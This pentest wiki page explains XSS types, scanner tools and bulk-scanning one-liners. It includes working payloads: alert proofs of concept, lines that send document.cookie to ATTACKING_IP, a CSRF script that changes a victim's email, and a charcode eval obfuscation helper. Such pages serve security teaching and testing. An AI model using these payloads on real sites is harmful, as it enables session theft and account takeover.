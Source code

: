 # XSS (Cross-Site Scripting)

## Theory

Cross-Site Scripting (XSS) is a security vulnerability that occurs when an application includes untrusted data in a web page. Attackers can inject malicious scripts into web pages viewed by other users. These scripts execute in the context of a user's browser, which can lead to a wide range of attacks, such as stealing cookies, session tokens, or sensitive data, defacing websites, or redirecting users to malicious sites.

There are three major types of XSS:

* **Stored XSS**: The injected payload is permanently stored on the server and served to other users when they access the page.
* **Reflected XSS**: The payload is included in the page as a result of a user action, like clicking on a malicious link or submitting a form.
* **DOM-based XSS**: while stored and reflected XSS attacks exploit vulnerabilities in the server-side code, a DOM-based XSS exploits client-side ones (e.g. JavaScript used to help dynamically render a page). DOM-based XSS usually affect user inputs that are temporarily reflected, just like reflected XSS attacks.

## Practice

### Tools

{% tabs %}
{% tab title="XSStrike" %}
[XSStrike](https://github.com/s0md3v/XSStrike) (Python) can be used to scan website for XSS

```bash
python xsstrike.py -u https://target.url/
```
{% endtab %}

{% tab title="Dalfox" %}
[Dalfox](https://github.com/hahwul/dalfox) is a powerful open-source XSS scanner and utility focused on automation.

```bash
# Scan an URL
dalfox url http://testphp.vulnweb.com/listproducts.php?cat=1

# From an URLs file
cat urls.txt | dalfox pipe
```
{% endtab %}

{% tab title="XSSer" %}
[XSSer](https://github.com/epsylon/xsser) (Python) is a tool that can detect, exploit and report XSS vulnerabilities on a web application

```bash
# --Cl : Crawl only local target(s)
# -c : Number of urls to crawl on target(s)
# --Cw: Deeping level of crawler: 1-5
# -s: show advanced statistics output results
# --auto: Inject a list of vectors provided by XSSer
# --xml: Export to XML
python xsser -u https://target.url -c 50 --Cw 1 --Cl -s --threads 5 --timeout 30 --retries 1 --delay 0 --auto --xml out.xml
```
{% endtab %}

{% tab title="toxssIn" %}
[toxssin](https://github.com/t3l3machus/toxssin) (Python) is an open-source penetration testing tool that automates the process of exploiting Cross-Site Scripting (XSS) vulnerabilities. It consists of an https server that works as an interpreter for the traffic generated by the malicious JavaScript payload that powers this tool (toxin.js).

```bash
# Generate certificates
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365

# Start toxssin server
python3 toxssin.py -u https://your.domain.com -c /your/certificate.pem -k /your/privkey.pem
```

On the target side, XSS payload should looks like:

```html
<script url="https://your.domain.com/handler.js"></script>
```
{% endtab %}

{% tab title="One-Liners" %}
Here are some handy one-liners to automate XSS scans on domains using tools like [gau](https://github.com/lc/gau), [hakrawler](https://github.com/hakluke/hakrawler), [waybackurls](https://github.com/tomnomnom/waybackurls), [katana](https://github.com/projectdiscovery/katana), [uro](https://github.com/s0md3v/uro), [qsreplace](https://github.com/tomnomnom/qsreplace), [httpx](https://github.com/projectdiscovery/httpx), [Gxss](https://github.com/KathanP19/Gxss), [Dalfox](https://github.com/hahwul/dalfox).

{% hint style="success" %}
It may be usefull for bug bounty hunting
{% endhint %}

```bash
# HTTPX
cat domains.txt | (gau || hakrawler || waybackurls || katana) | grep -Ev "\.(jpeg|jpg|png|ico|gif|css|woff|svg)$" | uro | grep =  | qsreplace "<img src=x onerror=alert(1)>" | httpx -silent -nc -mc 200 -mr "<img src=x onerror=alert(1)>"

# Dalfox
cat domains.txt | (gau || hakrawler || waybackurls || katana) | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe

# Curl, single domain
echo test.target.com | (gau || hakrawler || waybackurls || katana) | grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```
{% endtab %}
{% endtabs %}

### Enumeration - Find XSS Vulnerabilities

We have to identify input vectors that may not be properly sanitized and that are stored or reflected. For example:

* URI parameters for reflected and DOM-based XSS
* Other user inputs in forums, chats, comments, posts, and other stored content for stored XSS
* HTTP headers like Cookies (and even User-Agents in some cases)

We can input special characters and observe the output to determine if any of the special characters return unfiltered. The most common special characters used for this purpose include:

```
< > ' " { } ;
```

The following [website](https://transformations.jobertabma.nl/) (or [Github](https://github.com/jobertabma/transformations)) can assist in recognizing the alterations made to user inputs, which can aid in circumventing filters and modifications, enabling the exploitation of XSS vulnerabilities.

### Payloads

{% tabs %}
{% tab title="PoC" %}
Generally we will use following payloads as a proof of concept. It will open an alert window.

```html
// Classic Payloads
<script>alert('XSS');</script>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG onmouseover="alert('XSS')">
<<SCRIPT>alert("XSS");//<</SCRIPT>

// Useful payloads
<K OnPointerRawUpdate=alert(1)>
<K OnPointerMove=alert(1)>
\’/alert(1)//
<K ContentEditable AutoFocus OnFocus=alert(1)>
<Svg OnLoad=alert(1)>
<Img Src=//X55.is OnLoad=import(src)>
```
{% endtab %}

{% tab title="Stealing Cookies" %}
We may send back user cookies to our own webserver using following payloads

```html
<script>var i=new Image;i.src="http://ATTACKING_IP/?"+document.cookie;</script>
<img src=x onerror=this.src='http://ATTACKING_IP/?'+document.cookie;>
<img src=x onerror="this.src='http://ATTACKING_IP/?'+document.cookie; this.removeAttribute('onerror');">
```

On the attacking webserver, we may use [XSS-cookie-stealer.py](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py) to logs each inbound HTTP connection and all the cookies contained in that connection.

{% hint style="info" %}
[The HttpOnly flag](https://owasp.org/www-community/HttpOnly) instructs the browser to deny JavaScript access to the cookie. If this flag is set, we won't be able to steal the cookies.
{% endhint %}
{% endtab %}

{% tab title="CSRF" %}
We may use an XSS vulnerability to perform a CSRF (Cross-Site-Request-Forgery) and make actions on behalf of the user.

```html
#Exemple from https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

We may improve our payload for more reliability. First, compress it using [this website](https://jscompress.com/), and then past it as the following `encode_to_javascript` function argument&#x20;

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

Run the function and copy result (charcode) to our final payload

```html
<script>eval(String.fromCharCode(121,19,32 [...] 120,95,42,31))</script>
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://owasp.org/www-community/attacks/xss/" %}

{% embed url="https://portswigger.net/web-security/cross-site-scripting" %}

{% embed url="https://www.thehacker.recipes/web/inputs/xss" %}
